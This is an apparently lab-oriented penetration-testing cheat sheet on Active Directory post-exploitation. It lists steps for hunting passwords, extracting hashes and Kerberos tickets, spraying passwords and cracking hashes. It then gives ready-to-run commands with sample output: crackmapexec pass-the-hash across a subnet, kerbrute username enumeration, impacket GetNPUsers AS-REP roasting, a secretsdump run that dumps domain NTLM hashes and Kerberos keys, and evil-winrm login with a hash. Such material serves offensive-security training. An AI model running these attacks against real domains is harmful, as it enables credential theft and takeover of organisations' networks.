 # Post-Exploitation

You should approach to first machine in AD as regular standalone windows machine. Lateral movement or privilege escalation as well.

You can do post exploitation steps as follows:

Check groups where the user is in. Check the user in some privileged group.

Check another users in the domain.

Search files in the system for finding passwords, important notes and information, mail etc.

Check services on the system.

Some services contains cleartext passwords, hashes in some files.

Extract hashes, secrets, kerberos tickets with mimikatz etc. (requires system shell)

{% content-ref url="../password-extraction.md" %}
[password-extraction.md](../password-extraction.md)
{% endcontent-ref %}

Try pass the hash methods like using psexec or crackmapexec from impacket, evil-winrm, xfreerdp etc. (If the target user has not Administrator rights, you cannot get shell with impacket).

Try cracking extracted hashes.

{% content-ref url="../password-cracking/" %}
[password-cracking](../password-cracking/)
{% endcontent-ref %}

Check SPNs. If there is SPN in system, try extract and crack it.

{% content-ref url="powershell-scripts/getuserspns.ps1.md" %}
[getuserspns.ps1.md](powershell-scripts/getuserspns.ps1.md)
{% endcontent-ref %}

Check GMSA. If there is gmsa account in the system, try extract and crack it.

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}

If you have cleartext password you can use Spray-Passwords.ps1 to identify the another user is using the same password.

{% content-ref url="powershell-scripts/spray-passwords.ps1.md" %}
[spray-passwords.ps1.md](powershell-scripts/spray-passwords.ps1.md)
{% endcontent-ref %}

Check the user has capabilities for exploitable GPO.

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}

You can try recent AD exploits to get domain admin privileges.

## Crackmapexec

```
# pass the hash
crackmapexec smb --local-auth 10.11.1.0/24 -H ee0c207898a5bccc01f38115019ca2fb -u Administrator
```

## Kerbrute

> This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication. It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.

```
# enum valid usernames
./kerbrute userenum userlist.txt -d spookysec.local --dc 10.10.70.25
```

![](<../../.gitbook/assets/image (32).png>)

## **ASREPRoasting**

> After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called **ASREPRoasting.** ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.
>
> Impacket has a tool called "GetNPUsers.py" that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames

### Impacket-GetNPUsers

```
impacket-GetNPUsers spookysec.local/ -usersfile usernames.txt -format john
impacket-GetNPUsers spookysec.local/ -usersfile usernames.txt -format hashcat
```

![](<../../.gitbook/assets/image (40).png>)

Crack the hash with whatever format you chose

```
svc-admin : management2005
```

## Impacket-secretsdump

> We can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that a user account (that is synced with the domain controller) has to offer

```
impacket-secretsdump backup@spookysec.local

Impacket v0.10.1.dev1+20220708.213759.8b1a99f7 - Copyright 2022 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
.
.
.
.
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
```

## Pass-The-Hash

### Evil-WinRM

> method of attack could allow us to authenticate as the user without the password

```
evil-winrm -i spookysec.local -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

